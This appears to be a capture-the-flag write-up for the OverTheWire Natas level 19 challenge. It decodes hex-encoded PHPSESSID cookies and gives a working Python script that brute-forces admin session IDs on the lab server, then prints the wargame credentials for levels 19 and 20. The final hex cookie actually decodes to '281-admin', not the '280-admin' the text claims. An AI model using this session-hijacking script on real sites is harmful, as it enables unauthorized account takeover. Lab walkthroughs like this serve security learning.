

> Since the source code is the same as the previous level, we will possibly brute force on session ID's.
> Logging in as any user, we see that the `PHPSESSID` cookie is set to a long string of numbers and characters. This might be hex.

```
3237362d61646d696e
```

> Using a hex decoder, we see that the `PHPSESSID` cookie is in this format:

```
number-username
```
> Its a number, followed by a `-`, followed by the username that we entered as input.

> Therefore, we can try setting username to `admin`, and bruteforcing that number from 1 to 640 like last challenge.
> Using this python code:

```python
import requests
import binascii
import re
from string import *

auth_username = "natas19"
auth_password = "8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s"
url = "http://natas19.natas.labs.overthewire.org/"

session = requests.Session()

for i in range(1, 641):
    cookie = binascii.hexlify(str.encode(str(i) + "-admin")).decode("utf-8")
    req = session.get(url, auth=(auth_username, auth_password), cookies={"PHPSESSID": cookie})
    if "You are an admin" in req.text:
        print(req.text)
        break
    print(i)
```

> Running the code, we see that it stops when the number is `280`.
> This makes the cookie to look like this: 
```
3238312d61646d696e
```

> Decoding from hex, this equals to: `280-admin`.



> The password for the next level:

```
natas20:guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH
```

---
